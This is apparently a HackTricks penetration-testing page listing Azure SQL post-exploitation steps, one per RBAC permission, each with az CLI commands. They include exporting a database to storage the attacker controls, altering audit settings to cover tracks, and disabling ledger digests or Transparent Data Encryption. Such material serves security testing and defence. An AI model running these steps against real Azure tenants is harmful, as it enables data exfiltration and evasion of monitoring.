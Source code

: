 # Az - SQL Database Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Post Exploitation

For more information about SQL Database check:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/databases/read`, `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`

With these permissions, an attacker can create and update databases within the compromised environment. This post-exploitation activity could allow an attacker to add malicious data, modify database configurations, or insert backdoors for further persistence, potentially disrupting operations or enabling additional malicious actions. 

```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```

With this permissions (`Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`) you can restore a deleted database:

```bash
az sql db restore \
  --dest-name <new_database_name> \
  --name <original_database_name> \
  --resource-group <resource_group> \
  --server <server_name> \
  --deleted-time "<deleted_time_ISO_format>"

```

### `Microsoft.Sql/servers/elasticPools/write` && `Microsoft.Sql/servers/elasticPools/read`

With these permissions, an attacker can create and update elasticPools within the compromised environment. This post-exploitation activity could allow an attacker to add malicious data, modify database configurations, or insert backdoors for further persistence, potentially disrupting operations or enabling additional malicious actions.

```bash
# Create Elastic Pool
az sql elastic-pool create \
    --name <new-elastic-pool-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --edition <edition> \
    --dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
    --name <elastic-pool-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --dtu <new-dtu-value> \
    --tags <key=value>
```

### `Microsoft.Sql/servers/auditingSettings/read` && `Microsoft.Sql/servers/auditingSettings/write`

With this permission, you can modify or enable auditing settings on an Azure SQL Server. This could allow an attacker or authorized user to manipulate audit configurations, potentially covering tracks or redirecting audit logs to a location under their control. This can hinder security monitoring or enable it to keep track of the actions. NOTE: To enable auditing for an Azure SQL Server using Blob Storage, you must attach a storage account where the audit logs can be saved.

```bash
az sql server audit-policy update \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --state Enabled \
  --storage-account <storage_account_name> \
  --retention-days 7
```

### `Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read`, `Microsoft.Sql/servers/connectionPolicies/read` && `Microsoft.Sql/servers/connectionPolicies/write`

With this permission, you can modify the connection policies of an Azure SQL Server. This capability can be exploited to enable or change server-level connection settings

```bash
az sql server connection-policy update \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --connection-type <Proxy|Redirect|Default>
```

### `Microsoft.Sql/servers/databases/export/action`

With this permission, you can export a database from an Azure SQL Server to a storage account. An attacker or authorized user with this permission can exfiltrate sensitive data from the database by exporting it to a location they control, posing a significant data breach risk. It is important to know the storage key to be able to perform this.

```bash
az sql db export \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --name <database_name> \
  --storage-uri <storage_blob_uri> \
  --storage-key-type SharedAccessKey \
  --admin-user <admin_username> \
  --admin-password <admin_password>

```

### `Microsoft.Sql/servers/databases/import/action`

With this permission, you can import a database into an Azure SQL Server. An attacker or authorized user with this permission can potentially upload malicious or manipulated databases. This can lead to gaining control over sensitive data or by embedding harmful scripts or triggers within the imported database. Additionaly you can import it to your own server in azure. Note: The server must allow Azure services and resources to access the server.

```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri `https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac`
```

### `Microsoft.Sql/servers/connectionPolicies/write` && `Microsoft.Sql/servers/connectionPolicies/read`

With this permissions, a user can modify and retrieve the connection policies of an Azure SQL server. These permissions allow someone to change how clients connect to the server—choosing between methods like redirect or proxy—which could be exploited to weaken security, redirect traffic, or intercept sensitive data if misconfigured.

```bash
az sql server conn-policy update \
  --resource-group <resource_group> \
  --server <server_name> \
  --connection-policy <policy>
```

### `Microsoft.Sql/servers/keys/write` && `Microsoft.Sql/servers/keys/read`

With this permissions, a user can update and retrieve encryption keys associated with an Azure SQL Server. These keys are often used for securing sensitive data through encryption, so manipulating them could compromise data security by allowing unauthorized decryption or key rotation changes.

```bash
az sql server key create \
  --resource-group MyResourceGroup \
  --server MyServer \
  --kid "https://mykeyvault.vault.azure.net/keys/mykey/1234567890abcdef
```

### `Microsoft.Sql/servers/databases/ledgerDigestUploads/disable/action`, `Microsoft.Sql/locations/ledgerDigestUploadsAzureAsyncOperation/read`, `Microsoft.Sql/locations/ledgerDigestUploadsOperationResults/read`

This permissions permission allows disabling Ledger Digest for an Azure SQL Database, which stops the periodic uploading of cryptographic digest records to Azure Blob Storage that verifies the integrity of data.

```bash
az sql db ledger-digest-uploads disable \
  --name ledgerDB \
  --resource-group myResourceGroup \
  --server my-sql-server
```

### `Microsoft.Sql/servers/databases/transparentDataEncryption/write`, `Microsoft.Sql/locations/transparentDataEncryptionAzureAsyncOperation/read`, `Microsoft.Sql/servers/databases/transparentDataEncryption/read`

This permission allows an authorized user or attacker to enable, disable, or modify Transparent Data Encryption (TDE) settings on an Azure SQL database, potentially impacting data security by altering encryption configurations.

```bash
az sql db tde set \
  --database <database-name> \
  --resource-group <resource-group-name> \
  --server <server-name> \
  --status <Enabled|Disabled>
```

{{#include ../../../banners/hacktricks-training.md}}



